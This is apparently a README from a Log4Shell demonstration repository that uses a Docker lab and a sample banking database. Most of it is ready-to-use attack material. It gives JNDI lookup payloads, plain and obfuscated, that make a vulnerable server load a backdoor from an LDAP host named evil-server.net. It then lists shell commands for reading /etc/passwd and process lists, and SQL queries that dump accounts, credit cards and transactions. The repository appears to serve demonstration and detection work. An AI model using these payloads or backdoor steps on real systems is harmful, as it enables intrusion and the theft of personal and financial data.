

# Actually exploiting Log4Shell

This repository contains the following Log4Shell exploits:

* [BackdoorServer](../exploits/BackdoorServer.java): installing a web-based backdoor on port `1337` which allows execution of arbitrary commands & SQL queries and removal of the backdoor again
* [BackdoorServerV2](../exploits/BackdoorServerV2.java): similar backdoor, but executed commands & SQL queries should also be detected as Command Injection & SQL Injection attacks

Exploiting the Log4Shell vulnerability then works by entering payloads similar as the ones shown below for the username. Only the part up to the port is relevant, everything after it is just for show-off purposes.

**Note:** the payloads below assume that you pointed a DNS entry `evil-server.net` to your LDAP server host, as described [here](log4shell_exploitation_setup_manual.md) (automatically taken care of in the Docker setup).

Installing backdoor (LDAP server on port 1389):

* `${jndi:ldap://evil-server.net:1389/InstallBackdoor}`
* `${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://evil-server.net:1389/InstallBackdoor}`

Installing backdoor V2 (LDAP server on port 1390):

* `${jndi:ldap://evil-server.net:1390/InstallBackdoorV2}`
* `${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://${lower:e}vil-${lower:s}erver.net:1390/${upper:I}nstallB${lower:a}ckdoorV2}`

As soon as one of the backdoors is running, commands and SQL queries as below might come in handy.

Commands (for Linux systems):

* `hostnamectl`: showing information about host (not working in Docker container)
* `cat /etc/passwd`: showing users via `/etc/passwd` file
* `ps aux`: showing running processes
* `netstat -tulpn`: showing listening ports and processes
* `ps aux | grep java`: showing all running `java` processes

SQL queries:

* `SELECT * FROM INFORMATION_SCHEMA.TABLES`: showing all tables in the database
* `SELECT * FROM ACCOUNT`: showing all user accounts
* `SELECT * FROM CREDITACCOUNT`: showing all credit cards
* `SELECT * FROM TRANSACTION`: showing all money transactions
* `SELECT * FROM CASHACCOUNT`: showing all cash accounts
